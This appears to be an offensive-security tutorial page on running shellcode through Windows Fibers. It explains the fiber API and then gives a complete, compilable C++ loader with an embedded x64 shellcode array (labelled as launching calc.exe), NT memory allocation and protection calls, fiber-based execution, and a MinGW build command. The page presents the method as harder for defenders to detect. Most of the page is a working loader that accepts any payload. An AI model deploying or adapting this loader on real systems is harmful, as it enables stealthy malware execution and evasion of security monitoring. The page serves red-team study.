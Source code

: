 # Fibers Shellcode Execution

## Theory

This technique executes shellcode by leveraging Windows Fibers for indirect execution flow control. Unlike traditional shellcode execution techniques that rely on `CreateThread` or direct function pointers, this method utilizes `ConvertThreadToFiber`, `CreateFiber`, and `SwitchToFiber` to execute shellcode in a fiber's context. This allows execution within an existing thread, making detection more challenging.

Windows fibers are manually scheduled execution units that run within the context of a thread. Unlike threads, fibers do not have their own kernel-managed execution state but instead share the thread's stack and register state. Fibers are useful in scenarios where a program needs finer control over execution switching.

#### Windows Fibers Overview

A fiber is a lightweight execution unit that must be explicitly scheduled by the application. The primary difference between a thread and a fiber is that threads are preemptively scheduled by the OS, whereas fibers must yield execution manually. The Windows API provides the following key functions for working with fibers:

* `ConvertThreadToFiber()`: Converts the calling thread into a fiber, enabling fiber-based execution.
* `CreateFiber()`: Creates a new fiber with a specified stack size and entry function.
* `SwitchToFiber()`: Switches execution to the specified fiber.
* `DeleteFiber()`: Frees resources associated with a fiber when execution completes.

Since fibers execute within the thread that schedules them, all operations performed by a fiber appear as if they were performed by the thread itself. This includes memory access, thread-local storage (TLS), and API calls.

#### Execution Flow

1. **Allocate Memory for Shellcode**:
   * Memory is allocated within the process using `NtAllocateVirtualMemory`.
   * Shellcode is written using `NtWriteVirtualMemory`.
   * Memory protection is changed to executable using `NtProtectVirtualMemory`.
2. **Convert Thread to Fiber**:
   * The calling thread is converted into a fiber using `ConvertThreadToFiber()`. This enables fiber switching within the thread.
3. **Create a Fiber for Shellcode Execution**:
   * `CreateFiber()` is used to create a new fiber pointing to the allocated shellcode.
4. **Switch to Shellcode Fiber**:
   * `SwitchToFiber()` is called to transfer execution to the shellcode fiber.
5. **Return Execution and Cleanup**:
   * Once the shellcode executes, execution returns to the main fiber.
   * The fiber is deleted using `DeleteFiber()`.
   * The thread is reverted back to its original state.

## Practice

{% tabs %}
{% tab title="C++" %}
We maye use the following C++ code to execute the shellcode using fibers:

{% code title="FiberExec.cpp" %}
```cilkcpp
#include <iostream>
#include <windows.h>
#include <psapi.h>
#include <tlhelp32.h>
#include <stdlib.h>
#include <tchar.h>

// Add these typedefs and function declarations for the NT functions
typedef NTSTATUS (NTAPI *pNtAllocateVirtualMemory)(
    HANDLE ProcessHandle,
    PVOID *BaseAddress,
    ULONG_PTR ZeroBits,
    PSIZE_T RegionSize,
    ULONG AllocationType,
    ULONG Protect
);

typedef NTSTATUS (NTAPI *pNtWriteVirtualMemory)(
    HANDLE ProcessHandle,
    PVOID BaseAddress,
    PVOID Buffer,
    SIZE_T NumberOfBytesToWrite,
    PSIZE_T NumberOfBytesWritten
);

typedef NTSTATUS (NTAPI *pNtProtectVirtualMemory)(
    HANDLE ProcessHandle,
    PVOID *BaseAddress,
    PSIZE_T RegionSize,
    ULONG NewProtect,
    PULONG OldProtect
);

// Define NTSTATUS if not already defined
#ifndef NTSTATUS
typedef LONG NTSTATUS;
#endif


DWORD WINAPI esc_main(LPVOID lpParameter)
{
    DWORD dwSize;
    // calc.exe shellcode
    unsigned char decoded[] = {0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,0x31,0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x00};
    SIZE_T length = sizeof(decoded);


    // Load NT functions dynamically
    HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
    if (!hNtdll) {
        std::cerr << "Failed to get handle to ntdll.dll" << std::endl;
    }
 
    pNtAllocateVirtualMemory NtAllocateVirtualMemory = (pNtAllocateVirtualMemory)GetProcAddress(hNtdll, "NtAllocateVirtualMemory");
    pNtWriteVirtualMemory NtWriteVirtualMemory = (pNtWriteVirtualMemory)GetProcAddress(hNtdll, "NtWriteVirtualMemory");
    pNtProtectVirtualMemory NtProtectVirtualMemory = (pNtProtectVirtualMemory)GetProcAddress(hNtdll, "NtProtectVirtualMemory");
    
    if (!NtAllocateVirtualMemory || !NtWriteVirtualMemory || !NtProtectVirtualMemory) {
        std::cerr << "Failed to get addresses of NT functions" << std::endl;
    }

    // Prepare variables
    HANDLE hProc = GetCurrentProcess();
    PVOID base_addr = NULL;
    SIZE_T pnew = length;
    SIZE_T bytesWritten = 0;
    DWORD oldProtect = 0;
    NTSTATUS status;

    // Allocate memory for shellcode
    status = NtAllocateVirtualMemory(hProc, &base_addr, 0, &pnew, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (status != 0) {
        std::cerr << "NtAllocateVirtualMemory failed with status: " << std::hex << status << std::endl;
    }

    // Write shellcode to allocated memory
    status = NtWriteVirtualMemory(hProc, base_addr, decoded, pnew, &bytesWritten);
    if (status != 0) {
        std::cerr << "NtWriteVirtualMemory failed with status: " << std::hex << status << std::endl;
    }

    // Change memory protection to executable
    status = NtProtectVirtualMemory(hProc, &base_addr, (PSIZE_T)&pnew, PAGE_EXECUTE_READ, &oldProtect);
    if (status != 0) {
        std::cerr << "NtProtectVirtualMemory failed with status: " << std::hex << status << std::endl;
    }

    std::cout << "Executing shellcode using Fiber-based execution..." << std::endl;

    // Convert current thread to fiber
    PVOID MainFiber = ConvertThreadToFiber(NULL);
    if (!MainFiber) {
        std::cerr << "ConvertThreadToFiber failed with error: " << GetLastError() << std::endl;
    }

    // Create fiber pointing to shellcode
    PVOID ShellcodeFiber = CreateFiber(0, (LPFIBER_START_ROUTINE)base_addr, NULL);
    if (!ShellcodeFiber) {
        std::cerr << "CreateFiber failed with error: " << GetLastError() << std::endl;
        ConvertFiberToThread();
    }

    // Switch to shellcode fiber
    SwitchToFiber(ShellcodeFiber);

    // Execution returns here after shellcode completes
    DeleteFiber(ShellcodeFiber);
    ConvertFiberToThread();

    std::cout << "Execution completed" << std::endl;
    return 0;
}

int main()
{
    esc_main(NULL);
    return 0;
}

 
```
{% endcode %}

We can compile it from linux using following command

```bash
x86_64-w64-mingw32-g++ FiberExec.cpp -o FiberExec.exe -std=c++20 -static
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.ired.team/offensive-security/code-injection-process-injection/executing-shellcode-with-createfiber" %}

{% embed url="https://learn.microsoft.com/en-us/windows/win32/procthread/fibers" %}
